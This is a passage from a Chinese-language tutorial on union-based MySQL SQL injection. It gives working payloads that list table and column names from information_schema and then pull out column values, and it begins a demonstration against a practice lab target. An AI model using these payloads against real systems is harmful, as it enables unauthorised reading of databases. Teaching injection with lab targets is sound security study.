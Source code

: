 ##### 在系统自带数据库information_schema中爆表名和字段名

###### **利用 union select 联合查询information_schema.tables，获取表名**

**即查询名为当前数据库(上述database()已经查到)的数据库下，有哪些数据表，得到当前数据库的所有表名**

```sql
?id=-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='已知库名'
```

###### **利用 union select 联合查询information_schema.columns，获取列名(字段名)**

**即查询名为已知表名的数据表中，有哪些列(字段)，得到当前数据库的这张表中的所有列名**

```sql
?id=-1'union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='已知表名'
```

_**至此，我们已经能知道当前数据库的所有表名以及所有数据表的所有列名，对于一个基本查询语句`SELECT 列名1,列名2 FROM 表名`而言，已经具备了基本条件。**_

#### 第5步：查询指定数据

**利用 union select 联合查询上述查到的表名，获取列值(字段值)**

```sql
?id=-1' union select 1,列名1,列名2,4 from 已知表名
```



# 涉及案例

## 简易代码分析SQL注入原理

(见上)

## sqlilabs注入靶场搭建简要使用

(见上)

## 墨者靶机真实MySQL注入演示

靶机地址：https://www.mozhe.cn/bug/detail/elRHc1BCd2VIckQxbjduMG9BVCtkZz09bW96aGUmozhe

### 第1步：判断是否存在注入点

?id=1

![](https://gitee.com/YatJay/image/raw/master/img/202201281850420.png)

?id=1fjaioghiajkasdlg
